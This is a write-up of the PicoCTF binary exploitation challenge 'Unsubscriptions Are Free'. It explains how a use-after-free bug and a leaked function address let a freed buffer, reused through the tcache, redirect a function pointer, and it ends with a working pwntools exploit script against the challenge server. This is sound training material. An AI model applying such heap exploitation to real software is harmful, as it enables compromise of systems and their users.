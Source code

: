 # Unsubscriptions Are Free (PicoCTF)
## Write-up of the PicoCTF Binary Exploitation Challenge

<img	src="Challenge Description.png"
		alt="Challenge Description"
/>

## Setup

2 files are provided to us for the challenge and the address
to the server is also provided.

Let's download the files and take a look at the source

## Analysis

Immediately we see a function that prints the flag  

<img	src="Analysis0.png"
		alt="Challenge Description"
/>

Upon further analysis we can see that this function is not being called anywhere but there is another suspicious function

<img	src="Analysis1.png"
		alt="Challenge Description"
/>

Running the binary we can see this prints out the address of the function that will print the flag

<img	src="Analysis2.png"
		alt="Challenge Description"
/>

Let's explore further to see how we can use this information  
  
The main function is pretty straightforward as well as the printMenu function

<img	src="Analysis3.png"
		alt="Challenge Description"
/>

<img	src="Analysis4.png"
		alt="Challenge Description"
/>

The processInput function handles the processing of all the user input

<img	src="Analysis5.png"
		alt="Challenge Description"
/>

doProcess just calls the function pointed to by the function pointer passed to it

<img	src="Analysis6.png"
		alt="Challenge Description"
/>

Now let's take a look at the remaining functions

<img	src="Analysis7.png"
		alt="Challenge Description"
/>

There is a pointer being freed here and this function can be called multiple times  
This seems like a bug. Let's test it

<img	src="Analysis8.png"
		alt="Challenge Description"
/>

This looks like a Use After Free bug. Let's try to find out if we can write to this allocation somehow

<img	src="Analysis9.png"
		alt="Challenge Description"
/>

Here we have it. A function that allocates an 8 byte buffer and lets us write to it  
Now what will happen is
- We will free the "user" buffer
- It will go into the tcache
- We will allocate a buffer
- This allocation will come from the tcache and it'll point to the same place "user" was pointing to
- We will write the address of the "hahaexploitgobrr" function to this buffer
- We will free the "user" buffer again to call the function

Let's try this out

## Exploitation

Here's the exploit script

```py
#!/usr/bin/python3

from pwn import log, process, remote, time
import pwnlib.util.packing as pack

p = remote("mercury.picoctf.net", 48259)

p.sendline(b"S") # Get the memory leak

for i in range(9):
    try:
        inp = str(p.recvline()[21:].strip())[2:].strip("'") # Get the address from the leak
    except:
        log.info("")


inp = int(inp, 16) # Convert it to hex
log.info(f"{hex(inp)}")

p.sendline(b"I")    # Free user
p.sendline(b"Y")

p.sendline(b"L")    # Allocate the new buffer and write the address to it
time.sleep(1)
p.sendline(pack.p64(inp))

p.sendline(b"I")    # Free user again
p.sendline(b"Y")

p.interactive()
```

<img	src="Exploitation0.png"
		alt="Challenge Description"
/>

It worked! We got the flag